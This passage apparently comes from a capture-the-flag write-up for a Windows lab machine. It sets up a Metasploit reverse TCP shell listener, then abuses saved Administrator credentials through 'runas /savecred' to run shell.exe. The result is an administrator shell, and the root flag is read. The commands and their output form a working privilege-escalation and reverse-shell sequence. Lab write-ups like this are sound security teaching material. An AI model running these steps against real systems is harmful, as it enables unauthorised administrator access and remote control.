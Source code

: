 To prepare for our reverse tcp shell, we will boot up `metasploit` by running `msfdb run`. Then, we can start our listener by running the below:

```bash
msf5> use exploit/multi/handler
msf5 exploit (multi/handler)> set payload
windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit (multi/handler)> set LHOST <Your IP>
LHOST => <Your IP>
msf5 exploit (multi/handler)> set LPORT <Your Port>
LPORT => <Your Port>
msf5 exploit (multi/handler)> run
```

#### Rooting

Now that we are listening on our selected port, we can begin the privilege escalation.

Remember our `cmdkey` and `runas` findings from earlier? Time to put them to use by executing our shell on the box.

```bash
C:\Users\security\Desktop> runas /savecred /user:Administrator shell.exe
```

With the saved credentials, `runas` executed our `shell.exe` as Administrator and we now have root shell
access in our metasploit listener!

```bash
C:\Users\security\Desktop> whoami
whoami
access/administrator
```

We close the exploitation out by securing the root flag.

```bash
C:\Users\security> more C:\Users\Administrator\Desktop\root.txt
more C:\Users\Administrator\Desktop\root.txt
6 e1586cc7ab230a8d297e8f9********
```

